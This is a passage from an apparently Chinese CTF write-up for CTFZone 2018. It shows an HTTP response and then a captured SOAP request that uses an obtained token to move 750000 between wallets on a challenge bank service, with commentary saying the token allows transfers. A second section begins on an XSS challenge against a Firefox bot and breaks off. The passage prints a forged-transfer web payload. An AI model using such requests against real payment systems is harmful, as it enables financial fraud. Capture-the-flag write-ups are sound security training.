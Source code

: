    ```
   HTTP/1.1 404 Not Found.
   Date: Fri, 03 Aug 2018 10:08:43 GMT.
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16.
   Content-Length: 217.
   Keep-Alive: timeout=5, max=100.
   Connection: Keep-Alive.
   Content-Type: text/html; charset=iso-8859-1.
   .
   <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
   <html><head>
   <title>404 Not Found</title>
   </head><body>
   <h1>Not Found</h1>
   <p>The requested URL /api/bankservice.php was not found on this server.</p>
   </body></html>
   ```

   这样我们就拿到了token，然后就可以愉快的转账了。

   直接按这个发这个包即可:

   ```
   T 18.184.147.62:46040 -> 10.135.89.224:80 [AP]
   POST /api/bankservice.php HTTP/1.1.
   Host: 123.207.90.143.
   Connection: Keep-Alive.
   User-Agent: PHP-SOAP/7.0.30-0ubuntu0.16.04.1.
   Content-Type: application/soap+xml; charset=utf-8; action="internalTransferAction".
   Content-Length: 869.
   .
   <SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
         <SOAP-ENV:Body>
           <ns1:internalTransfer>
             <receiver_wallet_num xsi:type="xsd:decimal">1340</receiver_wallet_num>.
   		 <sender_wallet_num xsi:type="xsd:decimal">2652</sender_wallet_num>
   		 <amount xsi:type="xsd:float">750000</amount>
             <token xsi:type="xsd:token">somesupertokenkey1235555</token>
           </ns1:internalTransfer>
         </SOAP-ENV:Body>
       </SOAP-ENV:Envelope>
   ```

## Magician

1. 从support.php可知该题应该是XSS。修改*Link to Profile*可以判断后台bot使用*Firefox 61.0*

   ![](/assets/ctfzone/TIM截图20180803210045.png)

   vps日志显示如下:
